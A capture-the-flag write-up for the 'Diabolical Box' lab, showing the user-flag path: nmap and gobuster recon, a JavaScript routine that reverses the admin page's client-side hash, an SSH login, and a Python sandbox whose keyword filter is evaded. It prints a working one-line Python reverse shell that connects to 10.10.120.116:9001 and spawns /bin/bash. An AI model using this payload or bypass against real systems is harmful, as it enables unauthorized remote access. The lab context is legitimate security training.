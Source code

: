 # CTF: Diabolical Box

![Difficulty: Hard](https://img.shields.io/badge/difficulty-hard-%23ff0000)
![Contest Date: 2024-05-14](https://img.shields.io/badge/contest%20date-2024--05--14-informational)
![Category: FTP, Hash, Crontab, SSH Key](https://img.shields.io/badge/category-ftp,hash,crontab,sshkey-%237159c1)
![By: Alexandre & Eloi](https://img.shields.io/badge/by-Alexandre%20%26%20Eloi-%23f9a03c)  
![alt text](img/diabolicalbox.png)
## Description

> Every puzzle has an answer!

## Write-up

UserFlag: user.txt  
RootFlag: root.txt

## Flag Solutions

### User Flag

First thing to do is to check open ports on the target machine. We can do this by running a port scan using `nmap`.

```bash
nmap -sSV $IP
```

Results : 
```bash
PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    nginx 1.14.0 (Ubuntu)

MAC Address: 02:85:B5:9A:69:1F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have two open ports, 22 and 80. Let's check the web server on port 80.

```bash
http://$IP
```

We arrived on a page, we can `gobuster` the website to find hidden directories.

```bash
gobuster dir --url http://<IP> -w Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,htm,js
````

Results : 
```bash
/index.html (Status: 200)
/login.html (Status: 200)
/signup.html (Status: 200)
/admin.html (Status: 200)
```

We can go to the `/admin.html` page.

```bash
http://$IP/admin.html
```

In the source code we have a `<script>...</script>` who contains a logic for the form, who check a hashed password.
And redirect to the `/very-intricate-puzzle.html'

We have the fonctions to hash the password.

But we need to reverse the hash to get the password with functions write in the script.

```JAVASCRIPT
const letters = [];
const hashed = [];
const token = "<HASH>";
let decodedMessage = "";

// Majuscule
for (let i = 0; i < 26; i++) {
    let letter = String.fromCharCode(65 + i);
    letters.push(letter)
}

// Minuscule
for (let i = 0; i < 26; i++) {
    let letter = String.fromCharCode(97 + i);
    letters.push(letter)
}
console.log(letters)

letters.forEach((e) => {
    hashed.push({letter: e, hash: int_array_to_text(string_to_int_array(int_array_to_text(string_to_int_array(e))))})
});
console.log(hashed)

for (let i = 0; i < token.length; i += 4) {
    let segment = token.substring(i, i + 4);
        
    let found = hashed.find(item => item.hash === segment);
    
    if (found) {
        decodedMessage += found.letter;
    }
}

console.log(decodedMessage);

function string_to_int_array(str){
  const intArr = [];

  for(let i=0;i<str.length;i++){
    const charcode = str.charCodeAt(i);
    const partA = Math.floor(charcode / 26);
    const partB = charcode % 26;

    intArr.push(partA);
    intArr.push(partB);
  }

  return intArr;
}

function int_array_to_text(int_array){
  let txt = '';
  
  for(let i=0;i<int_array.length;i++){
    txt += String.fromCharCode(97 + int_array[i]);
  }

  return txt;
}
```

We can connect to the SSH server with the username and the password we found.

```bash
ssh <USERNAME>@$IP
```

We can find the start of the user flag.

```bash
EPI{............_
```

But now we need to the end of the user flag.
On the url http://<IP>/very-intricate-puzzle.html we have input and result.

We can write python script in the input like this.

```
print("a")
```

And we have the result `The answer to your riddle seems to be: a`

We can't use "import", "exec" and more. It's protected.
We have result : `Hmm it seems this puzzle is protected...`

We can use reverse shell to get the user flag.

```bash
a=__import__;s=a("socket");o=a("os").dup2;p=a("pty").spawn;c=s.socket(s.AF_INET,s.SOCK_STREAM);c.connect(("10.10.120.116",9001));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/bash")
```

We have the end of the user flag.

**Well done! You found the user flag!**
